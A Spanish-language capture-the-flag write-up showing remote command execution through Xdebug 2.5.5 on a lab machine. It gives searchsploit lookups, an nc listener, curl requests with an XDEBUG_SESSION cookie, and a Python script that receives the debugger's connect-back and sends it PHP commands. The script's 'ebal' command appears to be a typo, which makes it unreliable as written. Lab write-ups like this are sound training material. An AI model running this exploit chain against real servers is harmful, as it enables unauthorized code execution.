 ## Vulnerability Assessment {-}

### searchsploit {-}

Checkeamos si existe un exploit relacionado con **Xdebug 2.5.5**

```bash
searchsploit xdebug
```

Hay un script en Ruby (Metasploit) que permitiria hacer execucion de commandos. Analizamos el exploit con el commando

```bash
searchsploit -x xdebug
```

Que hace el exploit?

- esta tirando de index.php
- se pone en escucha en el equipo de attackante en el puerto 9000
- usa el commando eval 
- deposita en una ruta del servidor un fichero con su contenido en base64
- executa el fichero con php
- la peticion esta enviada por el methodo GET con `'Cookie' => 'XDEBUG_SESSION=+rand_text_alphanumeric(10)'`

### Pruebas del exploit {-}

1. Nos ponemos en escucha en el puerto 9000

    ```bash
    nc -nlvp 9000
    ```

1. Enviamos un peticion GET con el XDEBUG_SESSION en cookie

    ```bash
    curl -s -X GET "http://10.10.10.83/index.php" -H "Cookie: XDEBUG_SESSION=EEEEE"
    ```

Recivimos datos del lado del servidor.

### Exploitacion de la vulnerabilida {-}

Buscamos un exploit en github y encontramos un script cortito que vamos a modificar y llamar exploit_shell.py

```python
#!/usr/bin/python3

import socket
import pdb

from base64 import b64encode

ip_port = ('0.0.0.0', 9000)
sk = socket.socket()
sk.bind(ip_port)
sk.listen(10)
conn, addr = sk.accept()

while True:
    client_data = conn.recv(1024)
    print(client_data)

    data = input('>> ')
    data = data.encode('utf-8')
    conn.sendall(b'ebal -i -- ' + b64encode(data) + b'\x00')
```

1. Lanzamos el exploit

    ```bash
    python3 exploit_shell.py
    ```

1. Lanzamos una peticion GET

    ```bash
    curl -s -X GET "http://10.10.10.83/index.php" -H "Cookie: XDEBUG_SESSION=EEEEE"
    ```

1. En la mini shell abierta del exploit_shell.py lanzamos un **whoami**

    ```php
    system('whoami')    
    ```

1. En la respuesta del **curl** se nos pone *www-data*

El exploit functionna y el commando **ifconfig** nos da una ip que no es la 10.10.10.83. Quiere decir que estamos
en un contenedor.
